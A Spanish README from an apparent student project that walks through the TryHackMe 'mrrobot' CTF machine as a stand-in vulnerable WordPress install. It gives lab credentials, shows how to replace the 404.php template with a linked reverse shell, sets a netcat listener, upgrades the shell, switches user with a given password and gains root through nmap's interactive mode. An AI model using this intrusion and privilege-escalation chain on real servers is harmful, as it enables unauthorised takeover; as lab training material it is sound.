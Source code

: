 ## Al no conseguir instalar algunas de las versiones vulnerables de WordPress (y sus softwares necesarios; PHP, MySQL, Apache2...), hemos decidido usar una máquina ya existente de un Capture The Flag de TryHackMe

# Instrucciones para acceder a la máquina y modificar WordPress

En este caso, hemos resuelto el CTF de TryHackMe "mrrobot" para poder modificar las configuraciones de WordPress en la máquina. A continuación, te detallamos los pasos a seguir para acceder a la máquina y obtener privilegios elevados.

## Pasos para acceder a la máquina:

1. **Acceder a TryHackMe:**
   - Inicia sesión en tu cuenta de TryHackMe.

2. **Conectar con la red de TryHackMe:**
   - Descarga el archivo de configuración de OpenVPN desde la plataforma de TryHackMe.

3. **Conexión mediante OpenVPN:**
   - Ejecuta el siguiente comando para conectar con la red de TryHackMe:
     ```bash
     sudo openvpn archivo.ovpn
     ```

4. **Acceder al CTF:**
   - Navega a [https://tryhackme.com/room/mrrobot](https://tryhackme.com/room/mrrobot).

5. **Iniciar la máquina:**
   - Inicia la máquina desde el panel de TryHackMe y espera a que se cargue la dirección IP de la máquina.

6. **Acceder al panel de WordPress:**
   - Entra en `http://IP/wp-admin` usando las siguientes credenciales:
     - Usuario: `elliot`
     - Contraseña: `ER28-0652`

## Modificación de la máquina para explotar vulnerabilidades:

A partir de este punto, puedes comenzar a modificar o añadir vulnerabilidades en la máquina. Para obtener acceso al servidor Linux y conseguir privilegios de root, sigue estos pasos:

7. **Acceder al archivo 404.php:**
   - En el panel de administración de WordPress, navega a `Templates > Editor > 404.php`.

8. **Añadir un reverse shell:**
   - Borra todo el contenido del archivo `404.php` y añade el código del reverse shell disponible en [GitHub](https://github.com/a20marsimsim/cms_wordpress_pildoras/blob/main/ataque/reverse_shell.php).
   - Asegúrate de editar la IP para que coincida con la de tu interfaz de VPN.

9. **Escuchar en tu máquina:**
   - Ejecuta el siguiente comando en tu sistema para escuchar en el puerto 1234:
     ```bash
     nc -lvnp 1234
     ```

10. **Ejecutar el reverse shell:**
    - Dirígete a `http://IP_VICTIMA/404.php` para ejecutar el reverse shell. Esto abrirá una shell en tu terminal con el usuario `daemon` en el servidor de la víctima.

11. **Obtener una terminal interactiva:**
    - Ejecuta el siguiente comando en tu terminal para obtener una shell con `/bin/bash`:
      ```bash
      python3 -c 'import pty; pty.spawn("/bin/bash")'
      ```

12. **Acceder al usuario "robot":**
    - Conéctate al usuario `robot` ejecutando:
      ```bash
      su robot
      ```
      - Contraseña: `abcdefghijklmnopqrstuvwxyz`

13. **Obtener acceso root:**
    - Una vez dentro del usuario `robot`, ve al directorio raíz y ejecuta `nmap` de la siguiente manera:
      ```bash
      nmap --interactive
      ```
    - Esto abrirá un diálogo donde escribirás `!sh`. Tras esto, obtendrás una shell con el usuario `root`.

## Resumen del CTF

Para obtener más detalles sobre cómo se resolvió el CTF, puedes consultar el siguiente [writeup en PDF](https://github.com/a20marsimsim/cms_wordpress_pildoras/blob/main/writeup_mrrobot.pdf).
